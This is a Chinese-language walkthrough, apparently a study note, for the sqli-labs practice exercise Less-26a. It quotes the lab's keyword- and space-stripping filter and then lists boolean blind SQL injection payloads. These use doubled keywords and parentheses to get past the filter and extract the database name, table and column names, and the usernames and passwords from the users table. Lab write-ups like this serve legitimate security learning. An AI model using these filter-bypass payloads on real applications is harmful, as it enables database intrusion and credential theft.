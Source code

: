 ```yaml
---
title: less26a
url: https://www.yuque.com/u29002979/ep2zrx/shvs86haf90l8lou
---
```


```bash
$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";

$id= preg_replace('/or/i',"", $id);			 //strip out OR (non case sensitive)
$id= preg_replace('/and/i',"", $id);		 //Strip out AND (non case sensitive)
$id= preg_replace('/[\/*]/',"", $id);	 //strip out /*
$id= preg_replace('/[--]/',"", $id);		 //Strip out --
$id= preg_replace('/[#]/',"", $id);			 //Strip out #
$id= preg_replace('/[\s]/',"", $id);		 //Strip out spaces
$id= preg_replace('/[\s]/',"", $id);		 //Strip out spaces
$id= preg_replace('/[\/\\\\]/',"", $id); //Strip out slashes
```

less26a过滤的东西与less26一致，闭合方式为单引号',
但是**没有报错的回显**&#x20;
尝试**布尔盲注**解决该问题

`1'`

> **Warning**: mysql\_fetch\_array() expects parameter 1 to be resource, boolean given in **E:\phpstudy\_pro\WWW\sql.com\Less-26a\index.php** on line **36**

`1'aandnd'1'='1`返回正常
`1'aandnd'1'='2`没有返回结果
用**单引号'**闭合 <a name="F1MU5"></a>

# 布尔盲注

<a name="MvWqA"></a>

## 判断库长

用二分法来确定库长
`1'anandd(length(database())<10)||'1`返回正常
`1'anandd(length(database())>5)||'1`返回正常
`1'anandd(length(database())=8)||'1`返回正常
数据库长度为8 <a name="u8msB"></a>

## 逐一字符判断数据库名称

`1'anandd(ascii(substr((database()),1,1))=115)||'1`返回正常,s
... <a name="MZkCo"></a>

## 数据表长度

`1'anandd(length((select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema=database())))>20)||'1`正常回显
`1'anandd(length((select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema=database())))<30)||'1`正常回显
`1'anandd(length((select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema=database())))=29)||'1`正常回显
数据表串起来长为29 <a name="TD0Ss"></a>

## 逐一字符判断数据表名称

`1'anandd(ascii(substr((select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema=database())),1,1))=101)||'1`正常回显,e
... <a name="xiptE"></a>

## 判断列长

`1'anandd(length((select(group_concat(column_name))from(infoorrmation_schema.columns)where(table_schema=database())anandd(table_name='users')))=20)||'1`正常回显,列长串起来是为20 <a name="Aqf5t"></a>

## 逐一字符判断字段名称

`1'anandd(ascii(substr((select(group_concat(column_name))from(infoorrmation_schema.columns)where(table_schema=database())anandd(table_name='users')),1,1))=105)||'1`正常回显,i
... <a name="NdqVW"></a>

## 逐一字符判断字段内容

`1'anandd(ascii(substr((select(group_concat(username,0x7e,passwoorrd))from(users)),1,1))=68)||'1`显示正常,D
...
